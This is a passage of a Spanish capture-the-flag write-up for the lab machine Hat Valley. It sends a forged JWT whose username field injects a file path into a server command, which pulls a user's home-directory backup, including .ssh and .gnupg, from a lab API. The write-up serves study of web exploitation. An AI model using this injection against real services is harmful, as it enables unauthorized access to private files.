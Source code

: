Es un script para hacer respaldos de su directorio de usuario, y podemos descargarnos el comprimido que crea:

{% highlight bash %}
❯ curl -o backup.tar.gz -b "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ii8nIC9ob21lL2JlYW4vRG9jdW1lbnRzL2JhY2t1cC9iZWFuX2JhY2t1cF9maW5hbC50YXIuZ3ogJyIsImlhdCI6MTY3NzEwMTM2Mn0.wQSAB6EyXMzKn3yDaLj6lZORDpkc68wmlvUvaKj1M4E" http://hat-valley.htb/api/all-leave
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 31716  100 31716    0     0  30268      0  0:00:01  0:00:01 --:--:-- 30292
❯ file backup.tar.gz
backup.tar.gz: gzip compressed data, from Unix, original size modulo 2^32 167772320 gzip compressed data, reserved method, has CRC, was "", from FAT filesystem (MS-DOS, OS/2, NT), original size modulo 2^32 167772320
{% endhighlight %}

Si lo extraemos nos dará un error al leer el final del archivo, pero igual nos habrá extraido otro comprimido con el directorio personal de Bean:

{% highlight bash %}
❯ tar -xf backup.tar.gz

gzip: stdin: unexpected end of file
tar: Child returned status 1
tar: Error is not recoverable: exiting now
❯ ls -la bean_backup.tar.gz
.rw-r--r-- 32k vzon 15 sep  2022 bean_backup.tar.gz
❯ tar -xzf bean_backup.tar.gz
❯ ls -la
total 140
drwxr-x--- 15 vzon vzon  4096 sep 15 07:45 .
drwx------ 45 vzon vzon  4096 feb 22 18:10 ..
-rw-r--r--  1 vzon vzon 31716 feb 22 18:04 backup.tar.gz
lrwxrwxrwx  1 vzon vzon     9 sep 15 07:40 .bash_history -> /dev/null
-rw-r--r--  1 vzon vzon   220 sep 15 07:34 .bash_logout
-rw-r--r--  1 vzon vzon  3847 sep 15 07:45 .bashrc
-rw-r--r--  1 vzon vzon 32344 sep 15 07:46 bean_backup.tar.gz
drwx------ 12 vzon vzon  4096 sep 15 07:41 .config
drwxr-xr-x  2 vzon vzon  4096 sep 15 07:35 Desktop
drwxr-xr-x  4 vzon vzon  4096 sep 15 07:46 Documents
drwxr-xr-x  2 vzon vzon  4096 sep 15 07:35 Downloads
drwx------  2 vzon vzon  4096 sep 15 07:36 .gnupg
drwx------  3 vzon vzon  4096 sep 15 07:35 .local
drwxr-xr-x  2 vzon vzon  4096 sep 15 07:35 Music
drwxr-xr-x  2 vzon vzon  4096 sep 15 07:35 Pictures
-rw-r--r--  1 vzon vzon   807 sep 15 07:34 .profile
drwxr-xr-x  2 vzon vzon  4096 sep 15 07:35 Public
drwx------  3 vzon vzon  4096 sep 15 07:35 snap
drwx------  2 vzon vzon  4096 sep 15 07:36 .ssh
drwxr-xr-x  2 vzon vzon  4096 sep 15 07:35 Templates
-rw-r--r--  1 vzon vzon    30 sep 15 07:46 time.txt
drwxr-xr-x  2 vzon vzon  4096 sep 15 07:35 Videos
{% endhighlight %}
